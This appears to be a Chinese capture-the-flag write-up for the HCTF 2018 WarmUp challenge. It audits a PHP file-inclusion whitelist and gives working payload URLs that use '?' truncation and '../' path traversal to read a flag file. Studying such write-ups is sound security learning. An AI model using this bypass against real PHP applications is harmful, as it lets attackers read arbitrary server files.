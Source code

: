 # ctf-

[HCTF 2018]WarmUp原题复现

1. 打开题目环境，发现什么都没有，那么__查看源代码__

![image](https://user-images.githubusercontent.com/76896357/116090405-6903c900-a6d6-11eb-9664-2195eee0f066.png)

2. 打开那个文件，发现是要代码审计
![image](https://user-images.githubusercontent.com/76896357/116090877-e7f90180-a6d6-11eb-98b2-625dc09e5db7.png)


!empty($_REQUEST['file'])  # 要求file变量不能为空

is_string($_REQUEST['file'])    # 要求字符串变量是字符型

emmm::checkFile($_REQUEST['file'])  # 调用emmm类里面的checkFile函数

3. 审查函数代码

看见了新的文件，打开看一下

![image](https://user-images.githubusercontent.com/76896357/116103473-32cc4680-a6e2-11eb-8117-4e44d42635b2.png)


```
class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];    # 定义数组
            if (! isset($page) || !is_string($page)) {                   # 检查参数存不存在，并且是不是字符串
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {                          # 如果参数被包括在数组内部，直接返回，这里可以知道参数是不能直接包含上面两个文件的
                return true;
            }

            $_page = mb_substr(                                         # 构建$_page变量，截取$page从开头到?的字母
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {                         # 如果匹配到白名单，返回true
                return true;
            }

            $_page = urldecode($page);                                  # 对截取的字符串解码
            $_page = mb_substr(                                         # 看看解码后是否存在？
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {                        # 存在就返回
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }
```
![image](https://user-images.githubusercontent.com/76896357/116098860-fac30480-a6dd-11eb-9c99-6b95c68f063c.png)


现在可以构建payload:

```
http://eec73ef7-5280-4697-b5ec-56d5a6b8bfb3.node3.buuoj.cn/index.php?file=source.php?/ffffllllaaaagggg.php
```
发现不行，猜测文件可能是在根目录，又发现，下面图片的地址。。。

![image](https://user-images.githubusercontent.com/76896357/116111450-3dd6a500-a6e9-11eb-8959-a34cf8b970f7.png)


试试吧，就不停的../吧！！！

```
http://eec73ef7-5280-4697-b5ec-56d5a6b8bfb3.node3.buuoj.cn/index.php?file=hint.php?/../../../../../ffffllllaaaagggg
```

5个../就行，多了也可以

![image](https://user-images.githubusercontent.com/76896357/116111325-1f70a980-a6e9-11eb-939d-2c5bd24dfc25.png)

成功！！！









































